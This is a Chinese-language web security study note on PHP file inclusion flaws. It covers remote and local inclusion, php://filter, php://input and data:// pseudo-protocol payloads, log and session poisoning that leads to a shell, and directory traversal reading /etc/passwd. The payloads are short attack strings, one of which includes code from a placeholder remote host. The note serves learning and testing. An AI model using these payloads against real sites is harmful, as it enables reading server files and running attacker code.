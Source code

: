 ```yaml
---
title: Web文件包含漏洞
cover: 
icon: pen-to-square
date: 2025-02-17
category:
  - Web安全笔记
tag:
  - Web漏洞
  - Web安全
star: false
sticky: false
---
```

# 简述

开发人员为提高代码重用性，会将可复用函数或语句写在单个文件中，使用时调用，此为文件包含。若开发时将被包含文件路径设为变量以动态调用，且 Web 应用未对该参数严格校验，使攻击者能控制被包含文件路径，就会产生文件包含漏洞。几乎所有脚本都有文件包含功能，在 PHP 的 Web 应用中较为常见。

<!-- more -->
- **远程包含**
- **本地包含**

### 远程包含
需要对方服务器开启远程开关；若是能够远程，可以将敏感的PHP文件以TXT后缀放在自已服务器上，让对方服务器远程访问URL：`xxx.php?file:http://xxx.xxx/1.txt`对方服务器即可以PHP脚本执行。

### 本地包含
只能控制固定文件（服务器现有文件）；如果有文件上传漏洞可以搭配本地文件包含漏洞，文件写着恶意代码，可以直接利用。

*若是没有上传文件漏洞：*
> 1. **包含日志文件利用**
> 2. **包含session文件利用**
> 3. **无文件伪协议玩法利用**

## 伪协议

**常见伪协议：`file://，php://filter，php://input，zip://，data://`**

### 文件读取

**【“ ?file= ”只是传参值，可随代码书写变量变动。】**

**`?file=file://../../../../../../../etc/passwd`**
**`?file=php://filter/read=convert.base64-encode/resource=../../phpinfo.php`**

读取服务器目录下的phpinfo.php文件，若是没有显示空白，若是有则返回base64编码后的内容

【如果出现read、base、convert等关键字过滤可以尝试使用：string、utf8、utf16】

**例如：**

**`php://filter/convert.iconv.utf-8.utf-16/resource=flag.php`**
**`php://filter/convert.iconv.UTF-8*.UCS-4LE*/resource=flag.php`**

这些是read，base64，encode，string被过滤的情况。

### 文件写入

**`?file=php://input`**

需要利用Post data里写PHP代码，即可直接执行代码。

![](/assets/images/2025-02-17/t1.png)

**`?file=php://filter/write=convert.base64-decode/resource=123.php`**

然后将恶意PHP代码编码为base64写入Post data里（前面需要加content=），再次访问123.php然后在Post data中写执行参数即可执行。

![](/assets/images/2025-02-17/t2.png)

### 文件执行

**`?file=data://text/plain,<?php phpinfo();?>`**

将直接执行后面的php代码。

**`?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+`**

将php代码编码为base64，然后写入data://text/plain;base64,后面，再次访问即可执行。

## 日志包含

**nginx服务器日志文件**

**`?file=/var/log/nginx/access.log`**

查看日志文件，发现日志文件里记录UA信息，可以尝试把恶意php代码写入UA中，使其让服务器执行。

### Session包含

**Session文件特性是会自动清除内容；session文件通常在`/tmp/sess_test`**

需要对上传表单或者上传文件（自建html，传递对方服务器）进行抓包，在Cookie内容中写 **`PHPSESSID=test`**，那么session固定文件名就是*sess_test*
表单内容写入【创建php文件 ——> 写入php代码】。

![](/assets/images/2025-02-17/t3.png)

需要不断的发包，让session文件不断的写入这个php执行代码。然后浏览器不断的访问这个session文件。**使用bp无payload爆破**

![](/assets/images/2025-02-17/t4.png)

最后，手动执行写入的php文件（**案例是不断地访问shell.php文件，需不断的刷新执行**）

![](/assets/images/2025-02-17/t5.png)

## 文件下载

可能存在安全问题的URL：

**`http(s)://www.xxx.com/upload?file=xxx.pdf`**

**`http(s)://www.xxx.com/upload?data=php://filter/read=convert.base64-encode/resource=xxx.pdf`**

...

![](/assets/images/2025-02-17/t6.png)

## 目录安全

### 目录遍历

**`http://www.xxx.com/upload?file=../../../../etc/passwd`**

此外，如果目录内没有index文件索引将会暴露目录，将目录所有文件或文件夹列出。

### 目录穿越

目录权限控制不当；如果代码中设定了只允许在此目录（/test）下进行操作，但是用户可以通过 **`/test/../../../../../`** 进行绕过过滤。


